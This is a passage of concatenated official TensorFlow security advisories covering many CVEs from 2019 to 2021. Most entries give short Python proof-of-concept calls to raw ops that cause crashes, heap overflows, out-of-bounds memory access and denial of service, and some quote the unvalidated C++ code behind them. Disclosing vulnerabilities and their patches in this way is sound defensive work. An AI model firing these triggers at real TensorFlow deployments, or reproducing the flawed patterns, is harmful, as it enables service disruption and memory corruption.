m_max = tf.constant(-10.0, dtype=tf.float32)
v = tf.constant([], shape=[0], dtype=tf.quint8)
v_min = tf.constant(-10.0, dtype=tf.float32)
v_max = tf.constant(-10.0, dtype=tf.float32)
beta = tf.constant([], shape=[0], dtype=tf.quint8)
beta_min = tf.constant(-10.0, dtype=tf.float32)
beta_max = tf.constant(-10.0, dtype=tf.float32)
gamma = tf.constant([], shape=[0], dtype=tf.quint8)
gamma_min = tf.constant(-10.0, dtype=tf.float32)
gamma_max = tf.constant(-10.0, dtype=tf.float32)

tf.raw_ops.QuantizedBatchNormWithGlobalNormalization(
  t=t, t_min=t_min, t_max=t_max, m=m, m_min=m_min, m_max=m_max,
  v=v, v_min=v_min, v_max=v_max, beta=beta, beta_min=beta_min,
  beta_max=beta_max, gamma=gamma, gamma_min=gamma_min,
  gamma_max=gamma_max, out_type=tf.qint32,
  variance_epsilon=0.1, scale_after_normalization=True)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/55a97caa9e99c7f37a0bbbeb414dc55553d3ae7f/tensorflow/core/kernels/quantized_batch_norm_op.cc)
does not validate all constraints specified in the [op's
contract](https://www.tensorflow.org/api_docs/python/tf/raw_ops/QuantizedBatchNormWithGlobalNormalization).

### Patches
We have patched the issue in GitHub commit
[d6ed5bcfe1dcab9e85a4d39931bd18d99018e75b](https://github.com/tensorflow/tensorflow/commit/d6ed5bcfe1dcab9e85a4d39931bd18d99018e75b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.

## TFSA-2021-051: `CHECK`-fail in `tf.raw_ops.RFFT`

### CVE Number
CVE-2021-29563

### Impact
An attacker can cause a denial of service by exploiting a `CHECK`-failure coming
from the implementation of `tf.raw_ops.RFFT`:

```python
import tensorflow as tf

inputs = tf.constant([1], shape=[1], dtype=tf.float32)
fft_length = tf.constant([0], shape=[1], dtype=tf.int32)

tf.raw_ops.RFFT(input=inputs, fft_length=fft_length)
```

The above example causes Eigen code to operate on an empty matrix. This triggers
on an assertion and causes program termination.

### Patches
We have patched the issue in GitHub commit
[31bd5026304677faa8a0b77602c6154171b9aec1](https://github.com/tensorflow/tensorflow/commit/31bd5026304677faa8a0b77602c6154171b9aec1).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-109: Heap out of bounds access in sparse reduction operations

### CVE Number
CVE-2021-37635

### Impact
The implementation of sparse reduction operations in TensorFlow can trigger
accesses outside of bounds of heap allocated data:

```python
import tensorflow as tf

x = tf.SparseTensor(
      indices=[[773, 773, 773], [773, 773, 773]],
      values=[1, 1],
      dense_shape=[337, 337, 337])
tf.sparse.reduce_sum(x, 1)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/a1bc56203f21a5a4995311825ffaba7a670d7747/tensorflow/core/kernels/sparse_reduce_op.cc#L217-L228)
fails to validate that each reduction group does not overflow and that each
corresponding index does not point to outside the bounds of the input tensor.

### Patches
We have patched the issue in GitHub commit
[87158f43f05f2720a374f3e6d22a7aaa3a33f750](https://github.com/tensorflow/tensorflow/commit/87158f43f05f2720a374f3e6d22a7aaa3a33f750).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2020-031: Write to immutable memory region

### CVE Number
CVE-2020-26268

### Impact
The `tf.raw_ops.ImmutableConst` operation returns a constant tensor created from
a memory mapped file which is assumed immutable. However, if the type of the
tensor is not an integral type, the operation crashes the Python interpreter as
it tries to write to the memory area:

```python
>>> import tensorflow as tf
>>> with open('/tmp/test.txt','w') as f: f.write('a'*128)
>>> tf.raw_ops.ImmutableConst(dtype=tf.string,shape=2,
                              memory_region_name='/tmp/test.txt')
```

If the file is too small, TensorFlow properly returns an error as the memory
area has fewer bytes than what is needed for the tensor it creates. However, as
soon as there are enough bytes, the above snippet causes a segmentation fault.

This is because the alocator used to return the buffer data is not marked as
returning an opaque handle since the [needed virtual
method](https://github.com/tensorflow/tensorflow/blob/c1e1fc899ad5f8c725dcbb6470069890b5060bc7/tensorflow/core/framework/typed_allocator.h#L78-L85)
is [not
overriden](https://github.com/tensorflow/tensorflow/blob/acdf3c04fcfa767ae8d109b9e1f727ef050dba4d/tensorflow/core/kernels/immutable_constant_op.cc).

### Patches

We have patched the issue in GitHub commit
[c1e1fc899ad5f8c725dcbb6470069890b5060bc7](https://github.com/tensorflow/tensorflow/commit/c1e1fc899ad5f8c725dcbb6470069890b5060bc7)
and will release TensorFlow 2.4.0 containing the patch. TensorFlow nightly
packages after this commit will also have the issue resolved.

Since this issue also impacts TF versions before 2.4, we will patch all releases
between 1.15 and 2.3 inclusive.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2019-002: Heap buffer overflow in `UnsortedSegmentSum`

### CVE Number

CVE-2019-16778

### Issue Description

A heap buffer overflow in `UnsortedSegmentSum` can be produced when the `Index`
template argument is `int32`. In this case `data_size` and `num_segments` fields
are truncated from `int64` to `int32` and can produce negative numbers,
resulting in accessing out of bounds heap memory.

### Impact

This is unlikely to be exploitable and was detected and fixed internally. We are
making the security advisory only to notify users that it is better to update to
TensorFlow 1.15 or 2.0 or later as these versions already have this fixed.

### Vulnerable Versions

TensorFlow 1.0.0, 1.0.1, 1.1.0, 1.2.0, 1.2.1, 1.3.0, 1.3.1, 1.4.0, 1.4.1, 1.5.0,
1.5.1, 1.6.0, 1.7.0, 1.7.1, 1.8.0, 1.9.0, 1.10.0, 1.10.1, 1.11.0, 1.12.0,
1.12.1, 1.12.2, 1.12.3, 1.13.0, 1.13.1, 1.13.2, 1.14.0.

### Mitigation

We have patched the vulnerability in GitHub commit
[db4f971](https://github.com/tensorflow/tensorflow/commit/db4f9717c41bccc3ce10099ab61996b246099892).

We encourage users to switch to TensorFlow 1.15 or 2.0 as these versions contain
the fix. If switching is undesirable, consider cherry-picking the above commit
and building from source.
## TFSA-2021-043: Division by 0 in `FusedBatchNorm`

### CVE Number
CVE-2021-29555

### Impact
An attacker can cause a denial of service via a FPE runtime error in
`tf.raw_ops.FusedBatchNorm`:

```python
import tensorflow as tf

x = tf.constant([], shape=[1, 1, 1, 0], dtype=tf.float32)
scale = tf.constant([], shape=[0], dtype=tf.float32)
offset = tf.constant([], shape=[0], dtype=tf.float32)
mean = tf.constant([], shape=[0], dtype=tf.float32)
variance = tf.constant([], shape=[0], dtype=tf.float32)
epsilon = 0.0
exponential_avg_factor = 0.0
data_format = "NHWC"
is_training = False

tf.raw_ops.FusedBatchNorm(
    x=x, scale=scale, offset=offset, mean=mean,
    variance=variance, epsilon=epsilon,
    exponential_avg_factor=exponential_avg_factor,
    data_format=data_format, is_training=is_training)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/828f346274841fa7505f7020e88ca36c22e557ab/tensorflow/core/kernels/fused_batch_norm_op.cc#L295-L297)
performs a division based on the last dimension of the `x` tensor:

```cc
const int depth = x.dimension(3);
const int rest_size = size / depth;
```

Since this is controlled by the user, an attacker can trigger a denial of
service.

### Patches
We have patched the issue in GitHub commit
[1a2a87229d1d61e23a39373777c056161eb4084d](https://github.com/tensorflow/tensorflow/commit/1a2a87229d1d61e23a39373777c056161eb4084d).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
## TFSA-2020-014: Integer truncation in Shard API usage

### CVE Number
CVE-2020-15202

### Impact
The [`Shard`
API](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/core/util/work_sharder.h#L59-L60)
in TensorFlow expects the last argument to be a function taking two `int64`
(i.e., `long long`) arguments:
```cc
void Shard(int max_parallelism, thread::ThreadPool* workers, int64 total,
           int64 cost_per_unit, std::function<void(int64, int64)> work);
```

However, there are several places in TensorFlow where a lambda taking `int` or
`int32` arguments is [being
used](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/core/kernels/random_op.cc#L204-L205):
```cc
    auto DoWork = [samples_per_alpha, num_alphas, &rng, samples_flat,
                   alpha_flat](int start_output, int limit_output) {...};
    Shard(worker_threads.num_threads, worker_threads.workers,
          num_alphas * samples_per_alpha, kElementCost, DoWork);
```

In these cases, if the amount of work to be parallelized is large enough,
integer truncation occurs. Depending on how the two arguments of the lambda are
used, this can result in segfaults, read/write outside of heap allocated arrays,
stack overflows, or data corruption.

### Vulnerable Versions
TensorFlow 1.15.0, 1.15.1, 1.15.2, 1.15.3, 2.0.0, 2.0.1, 2.0.2, 2.1.0, 2.1.1,
2.2.0, 2.3.0.

### Patches
We have patched the issue in
[27b417360cbd671ef55915e4bb6bb06af8b8a832](https://github.com/tensorflow/tensorflow/commit/27b417360cbd671ef55915e4bb6bb06af8b8a832)
and
[ca8c013b5e97b1373b3bb1c97ea655e69f31a575](https://github.com/tensorflow/tensorflow/commit/ca8c013b5e97b1373b3bb1c97ea655e69f31a575).
We will release patch releases for all versions between 1.15 and 2.3.

We recommend users to upgrade to TensorFlow 1.15.4, 2.0.3, 2.1.2, 2.2.1, or
2.3.1.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-167: Code injection in `saved_model_cli`

### CVE Number
CVE-2021-41228

### Impact
TensorFlow's `saved_model_cli` tool is vulnerable to a code injection as it [calls `eval` on user supplied strings](https://github.com/tensorflow/tensorflow/blob/87462bfac761435a46641ff2f10ad0b6e5414a4b/tensorflow/python/tools/saved_model_cli.py#L524-L550)

```python
def preprocess_input_exprs_arg_string(input_exprs_str):
  ...
  for input_raw in filter(bool, input_exprs_str.split(';')):
    ...
    input_key, expr = input_raw.split('=', 1)
    input_dict[input_key] = eval(expr)
  ...
```

This can be used by attackers to run arbitrary code on the plaform where the CLI tool runs.

However, given that the tool is always run manually, the impact of this is not severe. We have patched this by adding a `safe` flag which defaults to `True` and an explicit warning for users.

### Patches
We have patched the issue in GitHub commit [8b202f08d52e8206af2bdb2112a62fafbc546ec7](https://github.com/tensorflow/tensorflow/commit/8b202f08d52e8206af2bdb2112a62fafbc546ec7).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Omer Kaspi from Vdoo.
## TFSA-2021-198: Crashes due to overflow and `CHECK`-fail in ops with large tensor shapes

### CVE Number
CVE-2021-41197

### Impact
TensorFlow allows tensor to have a large number of dimensions and each dimension can be as large as desired. However, the total number of elements in a tensor must fit within an `int64_t`. If an overflow occurs, `MultiplyWithoutOverflow` would return a negative result. In the majority of TensorFlow codebase this then results in a `CHECK`-failure. Newer constructs exist which return a `Status` instead of crashing the binary.

For example [`AddDim`](https://github.com/tensorflow/tensorflow/blob/0b6b491d21d6a4eb5fbab1cca565bc1e94ca9543/tensorflow/core/framework/tensor_shape.cc#L395-L408) calls should be replaced by [`AddDimWithStatus`](https://github.com/tensorflow/tensorflow/blob/0b6b491d21d6a4eb5fbab1cca565bc1e94ca9543/tensorflow/core/framework/tensor_shape.cc#L410-L440).

This is similar to [CVE-2021-29584](https://github.com/tensorflow/tensorflow/blob/3a74f0307236fe206b046689c4d76f57c9b74eee/tensorflow/security/advisory/tfsa-2021-071.md) (and similar other reported vulnerabilities in TensorFlow, localized to specific APIs).

### Patches
We have patched the issue in GitHub commits [7c1692bd417eb4f9b33ead749a41166d6080af85](https://github.com/tensorflow/tensorflow/commit/7c1692bd417eb4f9b33ead749a41166d6080af85) (merging [#51732](https://github.com/tensorflow/tensorflow/pull/51732)), [d81b1351da3e8c884ff836b64458d94e4a157c15](https://github.com/tensorflow/tensorflow/commit/d81b1351da3e8c884ff836b64458d94e4a157c15) (merging [#51717](https://github.com/tensorflow/tensorflow/pull/51717)), [a871989d7b6c18cdebf2fb4f0e5c5b62fbc19edf](https://github.com/tensorflow/tensorflow/commit/a871989d7b6c18cdebf2fb4f0e5c5b62fbc19edf) (merging [#51658](https://github.com/tensorflow/tensorflow/pull/51658)), and [d81b1351da3e8c884ff836b64458d94e4a157c15](https://github.com/tensorflow/tensorflow/commit/d81b1351da3e8c884ff836b64458d94e4a157c15) (merging [#51973](https://github.com/tensorflow/tensorflow/pull/51973)). It is possible that other similar instances exist in TensorFlow, we will issue fixes as these are discovered.

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported externally via [GitHub issue](https://github.com/tensorflow/tensorflow/issues/46890), [GitHub issue](https://github.com/tensorflow/tensorflow/issues/51618) and [GitHub issue](https://github.com/tensorflow/tensorflow/issues/51908).
## TFSA-2021-027: Division by zero in `Conv2DBackpropFilter`

### CVE Number
CVE-2021-29538

### Impact
An attacker can cause a division by zero to occur in `Conv2DBackpropFilter`:

```python
import tensorflow as tf

input_tensor = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.float32)
filter_sizes = tf.constant([0, 0, 0, 0], shape=[4], dtype=tf.int32)
out_backprop = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.float32)

tf.raw_ops.Conv2DBackpropFilter(
  input=input_tensor,
  filter_sizes=filter_sizes,
  out_backprop=out_backprop,
  strides=[1, 1, 1, 1],
  use_cudnn_on_gpu=False,
  padding='SAME',
  explicit_paddings=[],
  data_format='NHWC',
  dilations=[1, 1, 1, 1]
)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/1b0296c3b8dd9bd948f924aa8cd62f87dbb7c3da/tensorflow/core/kernels/conv_grad_filter_ops.cc#L513-L522)
computes a divisor based on user provided data (i.e., the shape of the tensors
given as arguments):

```cc
const size_t size_A = output_image_size * filter_total_size;
const size_t size_B = output_image_size * dims.out_depth;
const size_t size_C = filter_total_size * dims.out_depth;
const size_t work_unit_size = size_A + size_B + size_C;
const size_t shard_size = (target_working_set_size + work_unit_size - 1) / work_unit_size;
```

If all shapes are empty then `work_unit_size` is 0. Since there is no check for
this case before division, this results in a runtime exception, with potential
to be abused for a denial of service.

### Patches
We have patched the issue in GitHub commit
[c570e2ecfc822941335ad48f6e10df4e21f11c96](https://github.com/tensorflow/tensorflow/commit/c570e2ecfc822941335ad48f6e10df4e21f11c96).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-089: Division by zero in TFLite's implementation of `DepthwiseConv`

### CVE Number
CVE-2021-29602

### Impact
The implementation of the `DepthwiseConv` TFLite operator is [vulnerable to a
division by zero
error](https://github.com/tensorflow/tensorflow/blob/1a8e885b864c818198a5b2c0cbbeca5a1e833bc8/tensorflow/lite/kernels/depthwise_conv.cc#L287-L288):

```cc
int num_input_channels = SizeOfDimension(input, 3);
TF_LITE_ENSURE_EQ(context, num_filter_channels % num_input_channels, 0);
```

An attacker can craft a model such that `input`'s fourth dimension would be 0.

### Patches
We have patched the issue in GitHub commit
[cbda3c6b2dbbd3fbdc482ff8c0170a78ec2e97d0](https://github.com/tensorflow/tensorflow/commit/cbda3c6b2dbbd3fbdc482ff8c0170a78ec2e97d0).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-197: Incomplete validation in `tf.summary.create_file_writer`

### CVE Number
CVE-2021-41200

### Impact
If `tf.summary.create_file_writer` is called with non-scalar arguments code crashes due to a `CHECK`-fail.

```python
import tensorflow as tf
import numpy as np
tf.summary.create_file_writer(logdir='', flush_millis=np.ones((1,2)))
```

### Patches
We have patched the issue in GitHub commit [874bda09e6702cd50bac90b453b50bcc65b2769e](https://github.com/tensorflow/tensorflow/commit/874bda09e6702cd50bac90b453b50bcc65b2769e) (merging [#51715](https://github.com/tensorflow/tensorflow/pull/51715)).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported externally via a [GitHub issue](https://github.com/tensorflow/tensorflow/issues/46909).
## TFSA-2021-170: Arbitrary memory read in `ImmutableConst`

### CVE Number
CVE-2021-41227

### Impact
The `ImmutableConst` operation in TensorFlow can be tricked into reading arbitrary memory contents:

```python
import tensorflow as tf

with open('/tmp/test','wb') as f:
    f.write(b'\xe2'*128)
    data = tf.raw_ops.ImmutableConst(dtype=tf.string,shape=3,memory_region_name='/tmp/test')

print(data)
```

This is because the `tstring` TensorFlow string class has a special case for memory mapped strings but the operation itself does not offer any support for this datatype.

### Patches
We have patched the issue in GitHub commit [3712a2d3455e6ccb924daa5724a3652a86f6b585](https://github.com/tensorflow/tensorflow/commit/3712a2d3455e6ccb924daa5724a3652a86f6b585) and GitHub commit [1cb6bb6c2a6019417c9adaf9e6843ba75ee2580b](https://github.com/tensorflow/tensorflow/commit/1cb6bb6c2a6019417c9adaf9e6843ba75ee2580b).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
## TFSA-2021-066: Undefined behavior and `CHECK`-fail in `FractionalMaxPoolGrad`

### CVE Number
CVE-2021-29580

### Impact
The implementation of `tf.raw_ops.FractionalMaxPoolGrad` triggers an undefined
behavior if one of the input tensors is empty:

```python
import tensorflow as tf

orig_input = tf.constant([2, 3], shape=[1, 1, 1, 2], dtype=tf.int64)
orig_output = tf.constant([], dtype=tf.int64)
out_backprop = tf.zeros([2, 3, 6, 6], dtype=tf.int64)
row_pooling_sequence = tf.constant([0], shape=[1], dtype=tf.int64)
col_pooling_sequence = tf.constant([0], shape=[1], dtype=tf.int64)

tf.raw_ops.FractionalMaxPoolGrad(
  orig_input=orig_input, orig_output=orig_output, out_backprop=out_backprop,
  row_pooling_sequence=row_pooling_sequence,
  col_pooling_sequence=col_pooling_sequence, overlapping=False)
```

The code is also vulnerable to a denial of service attack as a `CHECK` condition
becomes false and aborts the process

```python
import tensorflow as tf

orig_input = tf.constant([1], shape=[1], dtype=tf.int64)
orig_output = tf.constant([1], shape=[1], dtype=tf.int64)
out_backprop = tf.constant([1, 1], shape=[2, 1, 1, 1], dtype=tf.int64)
row_pooling_sequence = tf.constant([1], shape=[1], dtype=tf.int64)
col_pooling_sequence = tf.constant([1], shape=[1], dtype=tf.int64)

tf.raw_ops.FractionalMaxPoolGrad(
  orig_input=orig_input, orig_output=orig_output, out_backprop=out_backprop,
  row_pooling_sequence=row_pooling_sequence,
  col_pooling_sequence=col_pooling_sequence, overlapping=False)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/169054888d50ce488dfde9ca55d91d6325efbd5b/tensorflow/core/kernels/fractional_max_pool_op.cc#L215)
fails to validate that input and output tensors are not empty and are of the
same rank. Each of these unchecked assumptions is responsible for the above
issues.

### Patches
We have patched the issue in GitHub commit
[32fdcbff9d06d010d908fcc4bd4b36eb3ce15925](https://github.com/tensorflow/tensorflow/commit/32fdcbff9d06d010d908fcc4bd4b36eb3ce15925).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
## TFSA-2021-096: Incomplete validation in `SparseAdd`

### CVE Number
CVE-2021-29609

### Impact
Incomplete validation in `SparseAdd` results in allowing attackers to exploit
undefined behavior (dereferencing null pointers) as well as write outside of
bounds of heap allocated data:

```python
import tensorflow as tf

a_indices = tf.zeros([10, 97], dtype=tf.int64)
a_values = tf.zeros([10], dtype=tf.int64)
a_shape = tf.zeros([0], dtype=tf.int64)

b_indices = tf.zeros([0, 0], dtype=tf.int64)
b_values = tf.zeros([0], dtype=tf.int64)
b_shape = tf.zeros([0], dtype=tf.int64)

thresh = 0

tf.raw_ops.SparseAdd(a_indices=a_indices,
                    a_values=a_values,
                    a_shape=a_shape,
                    b_indices=b_indices,
                    b_values=b_values,
                    b_shape=b_shape,
                    thresh=thresh)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/656e7673b14acd7835dc778867f84916c6d1cac2/tensorflow/core/kernels/sparse_add_op.cc)
has a large set of validation for the two sparse tensor inputs (6 tensors in
total), but does not validate that the tensors are not empty or that the second
dimension of `*_indices` matches the size of corresponding `*_shape`. This
allows attackers to send tensor triples that represent invalid sparse tensors to
abuse code assumptions that are not protected by validation.

### Patches
We have patched the issue in GitHub commit
[6fd02f44810754ae7481838b6a67c5df7f909ca3](https://github.com/tensorflow/tensorflow/commit/6fd02f44810754ae7481838b6a67c5df7f909ca3)
followed by GitHub commit
[41727ff06111117bdf86b37db198217fd7a143cc](https://github.com/tensorflow/tensorflow/commit/41727ff06111117bdf86b37db198217fd7a143cc).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-124: Segfault and heap buffer overflow in `{Experimental,}DatasetToTFRecord`

### CVE Number
CVE-2021-37650

### Impact
The implementation for `tf.raw_ops.ExperimentalDatasetToTFRecord` and
`tf.raw_ops.DatasetToTFRecord` can trigger heap buffer overflow and segmentation
fault:

```python
import tensorflow as tf

dataset = tf.data.Dataset.range(3)
dataset = tf.data.experimental.to_variant(dataset)
tf.raw_ops.ExperimentalDatasetToTFRecord(
  input_dataset=dataset,
  filename='/tmp/output',
  compression_type='')
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/f24faa153ad31a4b51578f8181d3aaab77a1ddeb/tensorflow/core/kernels/data/experimental/to_tf_record_op.cc#L93-L102)
assumes that all records in the dataset are of string type. However, there is no
check for that, and the example given above uses numeric types.

### Patches
We have patched the issue in GitHub commit
[e0b6e58c328059829c3eb968136f17aa72b6c876](https://github.com/tensorflow/tensorflow/commit/e0b6e58c328059829c3eb968136f17aa72b6c876).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2020-029: Uninitialized memory access in Eigen types

### CVE Number
CVE-2020-26266

### Impact
Under certain cases, a saved model can trigger use of uninitialized values
during code execution. This is caused by having tensor buffers be filled with
the default value of the type but forgetting to [default initialize the
quantized floating point types in
Eigen](https://github.com/tensorflow/tensorflow/blob/f70160322a579144950dff1537dcbe3c7c09d6f5/third_party/eigen3/unsupported/Eigen/CXX11/src/FixedPoint/FixedPointTypes.h#L61-L104):

```cc
struct QUInt8 {
  QUInt8() {}
  // ...
  uint8_t value;
};

struct QInt16 {
  QInt16() {}
  // ...
  int16_t value;
};

struct QUInt16 {
  QUInt16() {}
  // ...
  uint16_t value;
};

struct QInt32 {
  QInt32() {}
  // ...
  int32_t value;
};
```

### Patches

We have patched the issue in GitHub commit
[ace0c15a22f7f054abcc1f53eabbcb0a1239a9e2](https://github.com/tensorflow/tensorflow/commit/ace0c15a22f7f054abcc1f53eabbcb0a1239a9e2)
and will release TensorFlow 2.4.0 containing the patch. TensorFlow nightly
packages after this commit will also have the issue resolved.

Since this issue also impacts TF versions before 2.4, we will patch all releases
between 1.15 and 2.3 inclusive.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.
## TFSA-2021-179: Heap buffer overflow in `Transpose`

### CVE Number
CVE-2021-41216

### Impact
The [shape inference function for `Transpose`](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/ops/array_ops.cc#L121-L185) is vulnerable to a heap buffer overflow:

```python
import tensorflow as tf
@tf.function
def test():
  y = tf.raw_ops.Transpose(x=[1,2,3,4],perm=[-10])
  return y

test()
```

This occurs whenever `perm` contains negative elements. The shape inference function does not validate that the indices in `perm` are all valid:

```cc
for (int32_t i = 0; i < rank; ++i) {
  int64_t in_idx = data[i];
  if (in_idx >= rank) {
    return errors::InvalidArgument("perm dim ", in_idx,
                                   " is out of range of input rank ", rank);
  }
  dims[i] = c->Dim(input, in_idx);
}
```

where `Dim(tensor, index)` accepts either a positive index less than the rank of the tensor or the special value `-1` for unknown dimensions.

### Patches
We have patched the issue in GitHub commit [c79ba87153ee343401dbe9d1954d7f79e521eb14](https://github.com/tensorflow/tensorflow/commit/c79ba87153ee343401dbe9d1954d7f79e521eb14).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
## TFSA-2021-132: Reference binding to nullptr in `MatrixSetDiagV*` ops

### CVE Number
CVE-2021-37658

### Impact
An attacker can cause undefined behavior via binding a reference to null pointer
in all operations of type `tf.raw_ops.MatrixSetDiagV*`:

```python
import tensorflow as tf

tf.raw_ops.MatrixSetDiagV3(
  input=[1,2,3],
  diagonal=[1,1],
  k=[],
  align='RIGHT_LEFT')
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/84d053187cb80d975ef2b9684d4b61981bca0c41/tensorflow/core/kernels/linalg/matrix_diag_op.cc)
has incomplete validation that the value of `k` is a valid tensor. We have check
that this value is either a scalar or a vector, but there is no check for the
number of elements. If this is an empty tensor, then code that accesses the
first element of the tensor is wrong:

```cc
  auto& diag_index = context->input(1);
  ...
  lower_diag_index = diag_index.flat<int32>()(0);
```

### Patches
We have patched the issue in GitHub commit
[ff8894044dfae5568ecbf2ed514c1a37dc394f1b](https://github.com/tensorflow/tensorflow/commit/ff8894044dfae5568ecbf2ed514c1a37dc394f1b).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
